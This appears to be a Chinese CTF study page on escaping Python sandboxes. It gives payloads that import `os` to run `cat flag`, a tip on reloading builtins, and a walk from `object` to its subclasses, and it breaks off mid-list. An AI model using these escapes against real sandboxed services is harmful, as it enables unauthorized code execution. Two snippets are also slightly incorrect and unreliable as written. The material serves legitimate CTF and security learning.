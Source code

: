 ### 没有 import

可以用 `__import__` 来手动 import，具体：`__import__(package)`  得到的就是这个package、或者用 `importlib.import_module` 来导入一个包

```python
__import__(os).system("cat flag")
importlib.import_module("os"); os.system("cat flag")
```

### 仅清空了 \_\_builtins\_\_

可以尝试用 `imp.reload` 或 `importlib.reload` 来重新导入 `__builtins__` 

### eval 把环境清空了

#### 找 object 的子类

python 中一切皆对象，可以通过任意东西来找到 object 这个类：

```python
[].__class__.__base__
[].__class__.__bases__[0]
[].__class__.__mro__[-1]
().__class__.__base__
...
{}....
''....
...
```

然后获取它的子类：

```python
[].__class__.__base__.__subclasses__()
```

??? example "subclasses"
    
    ```python
    (0, <class 'type'>)
    (1, <class 'weakref'>)
    (2, <class 'weakcallableproxy'>)
    (3, <class 'weakproxy'>)
    (4, <class 'int'>)
    (5, <class 'bytearray'>)
    (6, <class 'bytes'>)
    (7, <class 'list'>)
    (8, <class 'NoneType'>)
    (9, <class 'NotImplementedType'>)
    (10, <class 'traceback'>)
    (11, <class 'super'>)
    (12, <class 'range'>)
    (13, <class 'dict'>)
    (14, <class 'dict_keys'>)
    (15, <class 'dict_values'>)
    (16, <class 'dict_items'>)
    (17, <class 'dict_reversekeyiterator'>)
    (18, <class 'dict_reversevalueiterator'>)
    (19, <class 'dict_reverseitemiterator'>)
    (20, <class 'odict_iterator'>)
    (21, <class 'set'>)
    (22, <class 'str'>)
    (23, <class 'slice'>)
    (24, <class 'staticmethod'>)
    (25, <class 'complex'>)
    (26, <class 'float'>)
    (27, <class 'frozenset'>)
